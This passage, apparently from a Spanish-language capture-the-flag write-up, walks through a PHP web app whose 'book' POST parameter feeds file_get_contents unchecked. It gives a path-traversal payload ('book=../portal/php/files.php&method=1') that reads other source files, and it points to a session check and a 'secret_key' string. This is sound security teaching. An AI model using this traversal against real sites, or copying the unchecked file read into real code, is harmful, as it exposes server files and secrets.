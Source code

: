 ```php
        $stmt = $con->prepare($query);
        $stmt->bind_param('ss', $title, $author);
        $stmt->execute();
        $res = $stmt->get_result();
        $out = mysqli_fetch_all($res,MYSQLI_ASSOC);
    }
    elseif($_POST['method'] == 1){
        $out = file_get_contents('../books/'.$_POST['book']);
    }
    else{
        $out = false;
    }
    echo json_encode($out);
}
```

**e.e)**

Si recordamos teniamos un archivo para subir objetos `.zip`, veamos su estructura:

```php
book=../portal/php/files.php&method=1
```

```php
<?php 

session_start();
$LOGGED_IN = false;
if($_SESSION['username'] !== "paul"){
    header("Location: ../index.php");
}
if(isset($_SESSION['loggedIn'])){
    $LOGGED_IN = true;
    require '../db/db.php';
}
else{
    header("Location: ../auth/login.php");
    die();
}

?>

<html lang="en">
<head>
    <title>Binary</title>
    ...
...
```

La razón por la que no podemos entrar es porque **no es `paul` el que hace la petición** :O 

Despues de dar algunas vueltas entre archivos buscando cositas, encontré una cadena interesante que quizás nos pueda servir despues (`secret_key`):
